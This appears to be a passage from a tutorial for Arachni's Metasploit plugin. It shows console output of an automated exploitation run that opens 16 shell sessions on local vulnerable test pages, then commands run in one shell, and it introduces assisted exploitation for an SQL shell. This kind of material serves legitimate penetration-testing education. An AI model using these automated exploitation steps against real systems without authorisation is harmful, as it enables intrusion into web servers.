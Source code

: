     [...snip...]
    [*] The autopwn command has completed with 16 sessions
    [*] Enter sessions -i [ID] to interact with a given session ID
    [*]
    [*] ================================================================================

    Active sessions
    ===============

      Id  Type   Information  Connection                          Via
      --  ----   -----------  ----------                          ---
      1   shell               127.0.0.1:54598 -> 127.0.0.1:5019   exploit/unix/webapp/arachni_php_eval
      2   shell               127.0.0.1:55336 -> 127.0.0.1:8541   exploit/unix/webapp/arachni_exec
      3   shell               127.0.0.1:37880 -> 127.0.0.1:12465  exploit/unix/webapp/arachni_exec
      4   shell               127.0.0.1:49451 -> 127.0.0.1:10866  exploit/unix/webapp/arachni_php_include
      5   shell               127.0.0.1:40276 -> 127.0.0.1:11915  exploit/unix/webapp/arachni_php_eval
      6   shell               127.0.0.1:34400 -> 127.0.0.1:5222   exploit/unix/webapp/arachni_exec
      7   shell               127.0.0.1:58456 -> 127.0.0.1:10955  exploit/unix/webapp/arachni_php_include
      8   shell               127.0.0.1:47028 -> 127.0.0.1:12432  exploit/unix/webapp/arachni_exec
      9   shell               127.0.0.1:48549 -> 127.0.0.1:5929   exploit/unix/webapp/arachni_exec
      10  shell               127.0.0.1:38239 -> 127.0.0.1:11919  exploit/unix/webapp/arachni_exec
      11  shell               127.0.0.1:58541 -> 127.0.0.1:14343  exploit/unix/webapp/arachni_php_include
      12  shell               127.0.0.1:48655 -> 127.0.0.1:13743  exploit/unix/webapp/arachni_php_include
      13  shell               127.0.0.1:59996 -> 127.0.0.1:8895   exploit/unix/webapp/arachni_php_include
      14  shell               127.0.0.1:53717 -> 127.0.0.1:10767  exploit/unix/webapp/arachni_php_include
      15  shell               127.0.0.1:51623 -> 127.0.0.1:7668   exploit/unix/webapp/arachni_php_eval
      16  shell               127.0.0.1:47874 -> 127.0.0.1:8965   exploit/unix/webapp/arachni_php_include

    [*] ================================================================================
    msf > sessions -i 1
    [*] Starting interaction with 1...

    ls
    eval.php
    os_command.php
    rfi.php
    sqli.php
    xss.php

    whoami
    www-data
    ^C
    Abort session 1? [y/N]  y

    [*] Command shell session 1 closed.  Reason: User exit
    msf >

Notice that we ended up with 16 sessions out of the 19 reported vulnerabilities. <br/>
This is due to the fact that the "unix/webapp/arachni_sqlmap" exploit can't be launched automatically and because some of the reported vulnerabilities are basically the same.

Next we'll see how to use the "arachni_manual" command for assisted exploitation and get an SQL shell.

### Assisted exploitation (arachni_manual)
    msf > arachni_list_vulns    # Let's take a look at the available vulnerabilities once again.
